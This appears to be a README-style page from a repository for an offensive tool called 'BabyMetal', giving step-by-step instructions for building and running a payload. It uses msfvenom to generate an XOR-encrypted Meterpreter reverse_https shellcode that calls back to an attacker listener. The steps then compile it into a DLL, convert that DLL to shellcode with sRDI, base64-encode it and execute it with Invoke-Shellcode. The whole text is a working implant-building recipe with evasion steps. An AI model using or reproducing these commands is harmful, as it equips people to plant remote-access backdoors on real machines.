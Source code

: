 Payload creation instructions

1. Generate shellcode
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.4 LPORT=443 EXITFUNC=thread -f C --encrypt xor --encrypt-key m
```
2. Paste shellcode into BabyMetal.cpp

3. Compile as DLL
```
g++ -shared BabyMetal.cpp -o BabyMetal.dll
```
4. Convert to shellcode with sRDI

```
Import-Module ConvertTo-Shellcode.ps1
$shellcode = ConvertTo-Shellcode -File .\babymetal.dll -FunctionName BabyMetal
```

5. Convert to base64 and write to file

```
$encoded = [System.Convert]::ToBase64String($shellcode)
Set-Content encoded.txt $encoded
```

6. Execute shellcode
```
Import-Module Invoke-Shellcode.ps1
Invoke-Shellcode -Shellcode $shellcode
```

Note: If you don't have g++, install it with Chocolatey:
```
choco install mingw
```
